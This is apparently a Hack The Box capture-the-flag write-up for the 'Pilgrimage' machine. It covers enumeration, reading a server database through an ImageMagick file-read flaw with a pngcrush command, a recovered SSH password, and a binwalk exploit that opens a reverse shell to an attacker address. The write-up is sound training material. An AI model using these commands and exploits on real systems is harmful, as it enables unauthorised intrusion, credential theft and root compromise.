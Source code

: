 # Pilgrimage

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Pilgrimage
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
nmap -sC -sV -v 10.10.11.219

22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
| http-git:
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration


<details>
<summary>dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://pilgrimage.htb/'

/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]
```
</details>

## Foothold

### Web → `emily` 🚩

#### Searching for Vulnerabilities

- the nmap scan shows that a Git repository is accessible at `/.git`, we can download the repository using [GitTools](https://github.com/internetwache/GitTools)
- the `index.php` from the Git repository shows that an SQLite database is being accessed at `/var/db/pilgrimage`
    
    ```php
    $db = new PDO('sqlite:/var/db/pilgrimage');
    ```
- The website can compress uploaded images. A compressed image can be downloaded and analyzed with `identify`:
    
    ```
    identify -verbose image.png
    
    ...
    Version: ImageMagick 6.9.11-60 Q16 aarch64 2021-01-25 https://imagemagick.org
    ```
- The website uses ImageMagick 6.9.11, for which an exploit for **LFI (local file inclusion)** exists *(CVE-2022-44268)*
    - https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

#### Exploitation

1. Generate an image using `pngcrush` to leak contents of SQLite database `/var/db/pilgrimage`:
    
    ```bash
    pngcrush -text a "profile" "/var/db/pilgrimage" image.png
    ```
2. After uploading the generated image, we can download the compressed version of it and analyze it using `identify -verbose`. At the end of the output we can see a large block of hex values:
    
   <p align="center"><img src="assets/identify-output.png" width="400"></p>
4. Decoding the hex block e.g. using CyberChef will reveal credentials:
    - username: `emily`
    - password: `abigchonkyboi123`
5. With these credentials we can login via ssh as `emily`. 🚩

## Privilege Escalation

### `emily` → `root` 🏁

#### Searching for Vulnerabilities

- `ps aux` shows a suspicious process running from root:
    
    ```
    root         690  0.0  0.0   6816  2984 ?        Ss   05:42   0:00 /bin/bash /usr/sbin/malwarescan.sh
    ```
- the script `malwarescan.sh` executes the command `binwalk` on every file that is uploaded under `/var/www/pilgrimage.htb/shrunk/`
- an exploit exists for the version of `binwalk` that enables **RCE (remote command execution)** *(CVE-2022-4510)*:
    - https://www.exploit-db.com/exploits/51249

#### Exploitation

1. We can use the [exploit](https://www.exploit-db.com/exploits/51249) to create a manipulated PNG file containing a RCE for a reverse shell:
    
    ```bash
    python3 51249.py Example.png 10.10.16.3 9002
    ```
2. After uploading `binwalk_exploit.png` in `/var/www/pilgrimage.htb/shrunk/` on the target, we get reverse shell access for root. 🏁
